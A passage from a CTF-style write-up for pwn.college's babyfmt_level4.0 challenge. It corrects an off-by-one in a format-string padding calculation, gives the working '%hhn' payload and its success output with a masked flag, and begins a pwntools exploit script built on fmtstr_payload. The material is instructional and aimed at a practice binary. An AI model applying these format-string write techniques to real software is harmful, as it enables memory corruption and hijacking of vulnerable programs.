 Why 0xa6 not 0xa5. This happened because when we aligned the stack for correct spot to win_address. We settled padlen value as 1. The extra 1 comes from there.

if we correct the calculation like this. Problem will solve.

```python
fmt = flat(f'%{desired_val-padlen}c%{offset+16//context.bytes}$hhn')
```

The payload became : `%164c%29$hhn`

**The result:**

```perl
And now, let's check the win value!
Checking win value...
... desired win value: 0xa5
... written win value: 0xa5
... SUCCESS! Here is your flag:
pwn.college{sp4****************************EzW}
### Goodbye!
```

Once a wise man i work with, said to me this:

*You can’t automate the process before understanding how to do it manually. * - Evren Pazoğlu

So hope helps you to understand the process. Now make it simple with pwntools 2 different way.

##### get_flag_fmtstr_payload.py

This one using pwntools's **fmtstr_payload** method to create **write-what-where** payload.
Basically its replicating from [fmtstr.py|Line 1027](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027) .

**Some notes:**
>numbwritten set as padlen, as you know the alignment in the stack we need to pad 1.

>adding random string before payload, the length must equal to padlen. Simply adding 1 random string. For more information: [randoms](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/util/fiddling.py#L458)

You can extend as many as you want with this approach. Manual approach needs more work to do that. This is really make life easier.
```python
exe = context.binary = ELF(args.EXE or './babyfmt_level4.0')
context.log_level = 'debug'
#context.log_level = 'info'



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b *func+445
continue
'''.format(**locals())

# -- Exploit goes here --

def get_win_address_and_value(text):
    match = re.findall(rb"0x[0-9a-fA-F]+", text)
    if match:
        return match
    return None
```